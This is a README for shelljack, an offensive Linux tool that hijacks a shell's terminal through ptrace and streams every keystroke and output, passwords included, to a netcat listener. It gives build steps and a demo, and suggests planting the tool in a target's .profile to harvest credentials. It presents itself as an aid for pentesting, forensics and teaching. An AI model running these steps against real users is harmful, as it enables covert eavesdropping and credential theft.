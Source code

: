 # shelljack #

_shelljack_ is a [Linux](http://en.wikipedia.org/wiki/Linux) [terminal](http://en.wikipedia.org/wiki/Computer_terminal) sniffer.

**What is a "terminal sniffer"?**

A terminal sniffer is a piece of software that inspects user [I/O](http://en.wikipedia.org/wiki/I/o) as it crosses the terminal. This is similar to a [keystroke logger](http://en.wikipedia.org/wiki/Keystroke_logging), but in addition to reporting all of the keystrokes put into the terminal, _shelljack_ also reports all of the data returned back out through the terminal.

**Is it a [kernel module](http://en.wikipedia.org/wiki/Kernel_module)?**

No. _shelljack_ works entirely in [user space](http://en.wikipedia.org/wiki/User_space).

**What is "shelljacking"?**

This is the term I use to describe a very specific type of terminal sniffing attack. _shelljack_ performs a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudo_terminal) [mitm attack](http://en.wikipedia.org/wiki/Man-in-the-middle_attack). It was designed to be used against a [session leader](http://linux.die.net/man/7/credentials), which usually means a users [shell](http://en.wikipedia.org/wiki/Unix_shell). It's also important to note that a successful shelljacking means you are now embedded in the traffic flow between user and their shell. *You will be sniffing all of the traffic down the line, including child processes and ssh sessions to other hosts!*

**That's awesome! [1337 h4X0rZ rUL3!!](http://hackertyper.com/)**

While I do think it's pretty neat, this really isn't ["hacking"](http://en.wikipedia.org/wiki/Hacker_%28computer_security%29). There are no exploits here. _shelljack_ takes advantage of Linux [deep magic](http://lxr.linux.no/#linux+v3.9.6/kernel/ptrace.c) that, while often not well understood, is completely legitimate. In order to shelljack a target, you will need the appropriate permissions to do so. 

While this may not be a "[sploit](http://en.wikipedia.org/wiki/Sploit)", it is a very handy tool designed to empower [pentesters](http://en.wikipedia.org/wiki/Pentester), [forensic analysts](http://en.wikipedia.org/wiki/Computer_forensics), and educators.

**Do I need to be root to use it?**

No. You need "appropriate permissions" in order for it to work. That means you will either need to be root, or the uid of the target process. 

**When would I ever need this?**

* As a pentester who has gained execution as a user, you can now shelljack that user for further reconnaissance and credential harvesting.
* As a forensic analyist, you can eavesdrop on the user who is the target of your investigation (after you've recieved the appropriate authority to do so from the heads of Security, Legal, and HR, of course.)
* As a sysadmin, or other educator, to publicly demonstrate why sane file permissions are important. 

**How does it work?**

_shelljack_ is a [terminal emulator](http://en.wikipedia.org/wiki/Terminal_emulator) that uses ptrace to insert itself between the shell and it's [controlling tty](https://github.com/emptymonkey/ctty).

**Tell me more of this [deep magic](http://en.wikipedia.org/wiki/Deep_magic) of which you speak!**

[ptrace](http://en.wikipedia.org/wiki/Ptrace):
ptrace is the debugging interface provided by the Linux kernel. It's wonderful at forcing you to *really* understand the inner workings of a Linux process when you try to use it. The best intro I've seen comes in the form of two articles by Pradeep Padala dating back to 2002: [Playing with ptrace, Part I](http://www.linuxjournal.com/article/6100) and [Playing with ptrace, Part II](http://www.linuxjournal.com/article/6210)

[tty](http://en.wikipedia.org/wiki/Tty_%28Unix%29):
A solid understanding of tty fundamentals is necessary to fully understand and leverage the [command line](http://en.wikipedia.org/wiki/Command_line). This is also a needed skill set for understanding shelljacking. The best tutorial on this topic is easily [The TTY demystified](www.linusakesson.net/programming/tty/) by [Linus Åkesson](http://www.linusakesson.net/pages/me.php). 

**What Architectures / OSs will this run on?**

Currently, _shelljack_ will only run on x86_64 Linux. Since _shelljack_ uses the Linux ptrace interface to inject syscalls into a target process using their assembly form, nothing here is portable. That said, check out my other project, [_ptrace_do_](https://github.com/emptymonkey/ptrace_do). If I get around to supporting _ptrace_do_ for other architectures, then porting _shelljack_ shouldn't be too hard.

# Usage #

	empty@monkey:~$ shelljack --help
	usage: shelljack LISTENER:PORT PID
		LISTENER:	Hostname or IP address of the listener.
		PORT:	Port number that the listener will be listening on.
		PID:	Process ID of the target process.

In order to properly mitm the [signals](http://en.wikipedia.org/wiki/Unix_signal) generated by the controlling tty, _shelljack_ must detach from it's original launch terminal. Because of this, you'll need to set up a listener to catch its eavesdropped output. [Netcat](http://en.wikipedia.org/wiki/Netcat) works nicely for this. (We've chosen localhost and port 9999 here, but _shelljack_ will happily use any [address](http://linux.die.net/man/3/getaddrinfo) that the machine will route.)

Let's do a demo. I'll be running [tty](http://linux.die.net/man/1/tty) in these examples to demonstrate which terminal I'm running various commands in.

Start by setting up a listener:

	empty@monkey:~$ tty
	/dev/pts/0
	empty@monkey:~$ while [ 1 ]; do ncat -l localhost 9999; done

Since this is a demo, let's also examine the shell we want to target:

	empty@monkey:~$ tty
	/dev/pts/3
	empty@monkey:~$ echo $$
	19716
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/3

Now, launch shelljack against the target pid:

	empty@monkey:~$ tty
	/dev/pts/2
	empty@monkey:~$ shelljack localhost:9999 19716

Back at the listener, you will now see all the I/O in real time as the user interacts with the shelljacked shell. For further evidence of this, lets go examine the target shell again:

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:17 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:18 255 -> /dev/pts/4
	empty@monkey:~$ ps j -u empty | grep $$
	19714 19716 19716 19716 pts/4    19867 Ss    1000   0:00 -bash
	    1 19782 19782 19782 pts/3    19782 Ss+   1000   0:00 shelljack localhost 9999 19716

We can see that _shelljack_ has successfully taken over /dev/pts/3, and is serving up /dev/pts/4 for the target shell to consume. It's now in place to mitm the traffic, happily forwarding you a copy of everything it sees, including the input which normally wouldn't be ["echoed"](http://linux.die.net/man/1/stty) to the terminal (e.g. passwords).

Also note, _shelljack_ was designed with the ability to attack the shell that is calling it. This makes it ideal for launching it out of the targets login [configuration files](http://en.wikipedia.org/wiki/Unix_shell#Configuration_files_for_shells). (e.g. .profile)

	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/3
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/3
	empty@monkey:~$ shelljack localhost:9999 $$
	empty@monkey:~$ ls -l /proc/$$/fd
	total 0
	lrwx------ 1 empty empty 64 Jun 16 16:33 0 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 1 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 2 -> /dev/pts/4
	lrwx------ 1 empty empty 64 Jun 16 16:33 255 -> /dev/pts/4

# Prerequisites #

To help with the heavy lifting, I've written two supporting libraries that are both needed by _shelljack_:

* [_ptrace_do_](https://github.com/emptymonkey/ptrace_do): A ptrace library for easy syscall injection in Linux.
* [_ctty_](https://github.com/emptymonkey/ctty): A library and tool for discovering and mapping Controlling TTYs in Linux.

In addition, I've also written another tool that isn't needed by _shelljack_, but helps with tty forensics. 

* [_dumb_](https://github.com/emptymonkey/dumb): A simple tool for stripping control characters and escape sequences from terminal output in Unix/Linux.

# Installation #

	git clone git@github.com:emptymonkey/ptrace_do.git
	cd ptrace_do
	make
	cd ..

	git clone git@github.com:emptymonkey/ctty.git
	cd ctty
	make
	cd ..

	git clone git@github.com:emptymonkey/shelljack.git
	cd shelljack
	make

# Limitations #

As noted in the [tty_ioctl](http://linux.die.net/man/4/tty_ioctl) [manpage](http://en.wikipedia.org/wiki/Manpage), an existing process can only switch controlling ttys if it is a session leader. Because of this, while _shelljack_ will be successful against the shell itself, any *existing* child processes will not be able to switch with it. They won't usually die during the shelljacking, but their I/O will act strangely if it relies on the tty. It is best to target shells that are semi-idle, or attack them during the login process.

# Similar Works #

I wrote _shelljack_ for my own education and as a proof-of-concept. After I had already worked out the difficult bits, I came across several other codebases that used a similar strategy, though generally for a different outcome.

* [retty](http://pasky.or.cz/dev/retty/): retty is a tiny tool that lets you attach processes running on other terminals.
* [neercs](http://caca.zoy.org/wiki/neercs): neercs allows you to detach a session from a terminal.
* [injcode](http://blog.habets.pp.se/2009/03/Moving-a-process-to-another-terminal): injcode injects code into a running process.
* [reptyr](http://blog.nelhage.com/2011/02/changing-ctty/): reptyr takes a process that is currently running in one terminal, and transplants it to a new terminal.

As you can see, my idea was hardly original, though I found it odd that nobody was using this technique for terminal sniffing. Some of those code bases are quite well done. If you are interested in learning more about this technique, I would suggest studying them.
